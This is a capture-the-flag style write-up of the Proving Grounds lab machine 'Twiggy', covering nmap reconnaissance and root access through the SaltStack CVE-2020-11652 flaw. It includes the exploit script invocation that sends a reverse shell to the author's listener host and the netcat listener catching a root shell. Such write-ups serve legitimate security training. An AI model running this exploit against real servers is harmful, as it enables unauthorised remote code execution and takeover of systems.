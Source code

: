 ```yaml
---
date: '2024-09-06'
before : '2024-09-04'
after : '2024-09-10'
title: 'Proving Grounds : Twiggy'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Twiggy machine from Proving Grounds'
thumbnail: '../contentImages/twiggy/twiggy-1.png'
---
```

## 0. Machine Info

Twiggy is a medium community-rated machine from Proving Grounds, maybe little bit harder than other easy machines but still easy enough.


> Nothing more to say, let's dive into the machine!


## 1. Recon

Starting with nmap scan

```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -T4 -p- -v 
\Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:20 EDT
Initiating Ping Scan at 02:20
SYN Stealth Scan Timing: About 51.50% done; ETC: 02:22 (0:00:57 remaining)
Completed SYN Stealth Scan at 02:22, 94.33s elapsed (65535 total ports)
Nmap scan report for 192.168.135.62
Host is up (0.050s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 94.48 seconds
           Raw packets sent: 131137 (5.770MB) | Rcvd: 376 (67.394KB)

```
- Port 22
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p22 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:33 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X (91%), Crestron 2-Series (86%), HP embedded (85%), Oracle VM Server 3.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:3.13 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.1 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:oracle:vm_server:3.4.2 cpe:/o:linux:linux_kernel:4.1
Aggressive OS guesses: Linux 3.13 (91%), Linux 3.10 - 4.11 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (90%), Linux 3.18 (88%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%), Oracle VM Server 3.4.2 (Linux 4.1) (85%)
No exact OS matches for host (test conditions non-ideal).

```
- Port 80
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p80 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
```
- Port 4505, 4506, 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.135.62 -p4505,4506,8000 -A -sC -sV

[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT     STATE SERVICE VERSION
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

```
So we have 2 webapps (80, 8000), DNS, zmtp and ssh. Let's start with enumeration

## 2. Enumeration

Since we don't have any domain name it will be hard to enumerate DNS. Let's start with zmtp

- zmtp service

After googling for a while, I found this:

> https://packetstormsecurity.com/files/157678/SaltStack-Salt-Master-Minion-Unauthenticated-Remote-Code-Execution.html

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit saltstack
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution                                                      | multiple/remote/48421.txt
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
Let's try it later. Moving to WebApp

- Webapp 

Visiting port 8000, I found following json-format output:

![twiggy-2](../contentImages/twiggy/twiggy-1.png)

Quick google search reveals us what this is.

> https://github.com/saltstack/salt/issues/52981


- Port 80

Nothing special, just a simple website powered by 8000 maybe.


## 3. Initial Foothold / Root

So I found only one CVE which could be useful, and somehow port 8000 and 80 is pointing to zmtp salt, which is a strong evidence that we should try this out.


At least, we found same keyword "salt" from both services. This is CVE-2020-11652

So let's dig deeper!

I downloaded Following Script:

```
┌──(hosan㉿kali)-[~/pg/twiggy/CVE-2020-11652]
└─$ python3 CVE-2020-11652.py --master 192.168.135.62 --port 4506 -lh 192.168.45.175 -lp 80 --exec-choose master
/home/hosan/.local/lib/python3.11/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.135.62:4506) status... 
[+] Read root_key... root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906074412689156', 'tag': 'salt/run/20240906074412689156'}. Looks promising!
Got response for attempting master shell: {'jid': '20240906074412729080', 'tag': 'salt/run/20240906074412729080'}. Looks promising!

```
Error popped up, but I still got root shell.

```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.175] from (UNKNOWN) [192.168.135.62] 55068
bash: no job control in this shell
[root@twiggy root]# 
```

## 4. Review

There are several things I learned:

1. Avoid using msfconsole.
2. Try various exploits from github with various options.
    -> For this, you will need to understand roughly what this exploit does 
4. Don't get frustrated!

---
## 5. Source

- Proving Grounds
- Me!